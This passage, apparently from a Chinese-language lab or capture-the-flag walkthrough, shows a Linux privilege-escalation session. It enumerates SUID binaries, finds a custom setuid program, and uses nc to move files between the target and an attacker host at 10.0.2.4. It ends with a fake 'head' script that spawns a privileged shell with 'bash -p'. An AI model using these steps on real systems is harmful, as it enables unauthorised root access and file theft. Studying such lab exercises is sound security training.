 ```bash
$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/newgrp
/usr/bin/sudo
/usr/bin/su
/usr/bin/umount
/usr/bin/at
/usr/bin/chsh
/usr/bin/pkexec
/usr/bin/mount
/usr/bin/fusermount
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chfn
/usr/lib/openssh/ssh-keysign
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/snap/core20/1828/usr/bin/chfn
/snap/core20/1828/usr/bin/chsh
/snap/core20/1828/usr/bin/gpasswd
/snap/core20/1828/usr/bin/mount
/snap/core20/1828/usr/bin/newgrp
/snap/core20/1828/usr/bin/passwd
/snap/core20/1828/usr/bin/su
/snap/core20/1828/usr/bin/sudo
/snap/core20/1828/usr/bin/umount
/snap/core20/1828/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core20/1828/usr/lib/openssh/ssh-keysign
/snap/snapd/18357/usr/lib/snapd/snap-confine
/snap/snapd/20290/usr/lib/snapd/snap-confine
/home/laboratoryadmin/autoScripts/PMCEmployees
$ cd /home/laboratoryadmin/autoScripts
$ file PMCEmployees
PMCEmployees: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=2e8e1b3a3f1bba666df17c97871f88b0377343fb, for GNU/Linux 3.2.0, not stripped
```

下载到本地看一下：

```bash
nc -lp 1234 > head
nc 10.0.2.4 1234 < head

nc -lp 1234 > PMCEmployees
nc 10.0.2.4 1234 < PMCEmployees
```

![image-20240319000541876](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403190148138.png)

```bash
# head
bash -p
```
